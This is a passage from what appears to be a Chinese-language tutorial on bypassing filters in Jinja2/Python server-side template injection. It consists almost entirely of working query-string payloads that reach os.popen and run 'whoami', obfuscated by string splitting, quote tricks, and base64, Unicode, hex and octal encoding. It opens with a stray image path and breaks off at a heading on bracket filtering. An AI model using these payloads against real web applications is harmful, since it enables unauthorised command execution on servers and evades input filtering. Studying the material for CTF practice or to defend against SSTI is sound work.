 `&lt;class &#39;os._wrap_close&#39;&gt;`，os命令相信你看到就感觉很亲切

## 绕过tips

### 关键字过滤

* 字符串拼接

  ```
  {{&#39;&#39;[&#39;__cl&#39;&#43;&#39;ass__&#39;].__bases__[0][&#39;__subcl&#39;&#43;&#39;asses__&#39;]()}}
  ```

* 单双引号绕过

  ```
  ?name={{&#39;&#39;[&#39;__class__&#39;].__mro__[1].__subclasses__()[139].__init__.__globals__[&#39;__bui&#39;&#39;ltins__&#39;][&#39;__impo&#39;&#39;rt__&#39;](&#39;o&#39;&#39;s&#39;).popen(&#39;who&#39;&#39;ami&#39;).read()}}
  ```

* 编码绕过

  * base64

    python2下使用，python3没有decode方法

    ```
    ?name={{&#39;&#39;.__class__.__mro__[1].__subclasses__()[139].__init__.__globals__[&#39;__builtins__&#39;][&#39;X19pbXBvcnRfXw==&#39;.decode(&#39;base64&#39;)](&#39;os&#39;).popen(&#39;whoami&#39;).read()}}
    ```

  * Unicode编码绕过

    ```
    ?name={{&#39;&#39;.__class__.__mro__[1].__subclasses__()[139].__init__.__globals__[&#39;__builtins__&#39;][&#39;\u005f\u005f\u0069\u006d\u0070\u006f\u0072\u0074\u005f\u005f&#39;](&#39;os&#39;).popen(&#39;whoami&#39;).read()}}
    ```

  * 16进制编码绕过

    ```
    name={{&#39;&#39;.__class__.__mro__[1].__subclasses__()[139].__init__.__globals__[&#39;__builtins__&#39;][&#39;\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f&#39;](&#39;os&#39;).popen(&#39;whoami&#39;).read()}}
    ```

  * 8进制编码绕过

    ```
    ?name={{&#39;&#39;[&#39;\137\137\143\154\141\163\163\137\137&#39;].__mro__[1].__subclasses__()[139].__init__.__globals__[&#39;__builtins__&#39;][&#39;\137\137\151\155\160\157\162\164\137\137&#39;](&#39;os&#39;).popen(&#39;whoami&#39;).read()}}
    ```

### 过滤[]括号
